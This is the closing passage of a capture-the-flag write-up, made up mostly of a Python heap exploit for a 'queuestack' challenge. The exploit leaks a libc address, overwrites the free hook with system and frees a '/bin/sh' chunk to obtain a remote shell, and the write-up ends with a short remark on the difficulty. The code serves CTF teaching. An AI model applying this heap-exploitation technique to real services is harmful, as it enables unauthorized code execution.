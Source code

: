 ~~~ python
    sock.interactive()
    pushright(3, p64(qstack2))
    pushright(3, p64(qstack2))
    #write addr of qstack2 to qstack 4
    qstack2 = heap_base + 0x350
    pushright(4, p64(qstack2 | padding))
    #now free qstack2:
    popright(4)
    #free prethread_tcache_struct:
    popleft(2)
    #get a libc leak :) :)
    examine(2, 2)
    libc_base = u64(sock.recv()[0:6] + bytes.fromhex("0000")) - 0x1ECBE0
    print("leak? " + hex(libc_base))
    sock.sendline("examine22")
    #alloc until we get to tcache_prethread_struct then write free_hook
    pushleft(4, "/bin/sh")
    free_hook = libc_base + 0x1eee48
    #write free_hook:
    pushright(2, p64(free_hook | padding))
    #write system to free_hook:
    system = libc_base + 0x52290
    pushright(2, p64(system | padding))
    #call free on /bin/sh:
    popleft(4)
    sock.interactive()

main()
~~~

## Conclusion

A LOT of pain and suffering was left out of this writeup. Getting the exploit to work on remote was a nightmare, as was negotiating with the queuestack data structure. However, overall, I liked
this challenge. 
